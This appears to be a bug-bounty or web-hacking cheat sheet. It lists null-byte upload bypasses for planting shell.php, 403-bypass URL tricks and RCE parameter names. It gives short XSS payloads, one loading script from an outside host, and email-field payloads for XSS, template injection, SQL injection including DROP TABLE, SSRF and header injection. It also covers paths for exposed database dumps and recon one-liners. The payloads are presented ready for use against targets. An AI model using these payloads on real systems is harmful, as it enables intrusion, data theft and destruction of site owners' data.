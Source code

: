 # Tips and Tricks

## Null Byte Injection Trick: 
	file.jpg%00shell.php
	shell.php%00file.jpg
	shell.php%00.jp


## Tampering 403 Error Bypass: 
	site.com/secret –> HTTP 403 Forbidden
	site.com/secret/ –> HTTP 200 OK
	site.com/secret/. –> HTTP 200 OK
	site.com//secret// –> HTTP 200 OK
	site.com/./secret/.. –> HTTP 200 OK


## Database Enumeration
	Note: Need to clone: 
	https://github.com/maurosoria/dirsearch
	https://github.com/anantshri/svn-extractor
	
	./dirsearch.py -u target -e php,html,js,xml -x 500,403
	./svn-extractor.py --url http://url.com --match database.php

## Finding hidden get parameters: 
	Note: 	   	
	https://github.com/tomnomnom/assetfinder
	https://github.com/lc/gau
	
	assetfinder example.com | gau | egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'); echo -e "\e[1;33m$url\n\e[1;32m$vars"; done

## RCE Injection: 
	?cmd={payload}
	?exec={payload}
	?command={payload}
	?execute{payload}
	?ping={payload}
	?query={payload}
	?jump={payload}
	?code={payload}
	?reg={payload}
	?do={payload}
	?func={payload}
	?arg={payload}
	?option={payload}
	?load={payload}
	?process={payload}
	?step={payload}
	?read={payload}
	?function={payload}
	?req={payload}
	?feature={payload}
	?exe={payload}
	?module={payload}
	?payload={payload}
	?run={payload}
	?print={payload}

## Small Payloads: 
#### *If number of iframes on the page is constant* 
	<iframe/onload=src=top[0].name+/\Ǌ.₨?/>

#### *If number of iframes on the page is random*
	<iframe/onload=src=contentWindow.name+/\Ǌ.₨?/>

#### *If unsafe-inline is disabled in CSP and external scripts allowed*

#### *Just a casual script*
	<script/src=//Ǌ.₨></script>

#### *If you control the name of the window*
	<iframe/onload=src=top.name>

#### *If you control the name, will work on Firefox in any context, will fail in chromium in DOM*
	<svg/onload=eval(name)>

#### *If you control the URL*
	<svg/onload=eval(`'`+URL)>

##  Finding sensitive information using AlienVault:

	-Go To :  https://otx.alienvault.com/indicator/domain/<TARGET>
	-curl -s "https://otx.alienvault.com/api/v1/indicators/domain/<TARGET>/url_list?limit=100&page=1" | jq
	
	-To get only the list of URLs, we could do this:
	-curl -s "https://otx.alienvault.com/api/v1/indicators/domain/<TARGET>/url_list?limit=100&page=1" | jq -r '.url_list[].url'
	
##  Forgotten Database Dumps:
	/back.sql
	/backup.sql
	/accounts.sql
	/backups.sql
	/clients.sql
	/customers.sql
	/data.sql
	/database.sql
	/database.sqlite
	/users.sql
	/db.sql
	/db.sqlite
	/db_backup.sql
	/dbase.sql
	/dbdump.sql
	setup.sql
	sqldump.sql
	/dump.sql
	/mysql.sql
	/sql.sql
	/temp.sql


##  Email Address Payloads: 
	##### *XSS (Cross-Site Scripting):*
		test+(<script>alert(0)</script>)@example.com
		test@example(<script>alert(0)</script>).com
		"<script>alert(0)</script>"@example.com

## Template injection:
	"<%= 7 * 7 %>"@example.com
	test+(${{7*7}})@example.com

## SQL injection:
	"' OR 1=1 -- '"@example.com
	"mail'); DROP TABLE users;--"@example.com

## SSRF (Server-Side Request Forgery):

	john.doe@abc123.burpcollaborator.net
	john.doe@[127.0.0.1]

##  Parameter pollution:
	victim&email=attacker@example.com

##  (Email) header injection:
	"%0d%0aContent-Length:%200%0d%0a%0d%0a"@example.com
	"recipient@test.com>\r\nRCPT TO:<victim+"@test.com
	
## Extracting endpoints from JavaScript files:
	cat main.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u

## Extracting Juicy Information:
	for sub in $(cat domains.txt);do /usr/bin/gron "https://otx.alienvault.com/otxapi/indicator/hostname/url_list/$sub?limit=100&page=1" | grep "\burl\b" | gron --ungron | jq |egrep -wi 'url' | awk '{print $2}' | sed 's/"//g'| sort -u | tee -a file.txt  ;done

## Extracting all the urls from sitemap
	curl -s domain.com/sitemap.xml | xmllint --format - | grep -e 'loc' | sed -r 's|</?loc>||g'


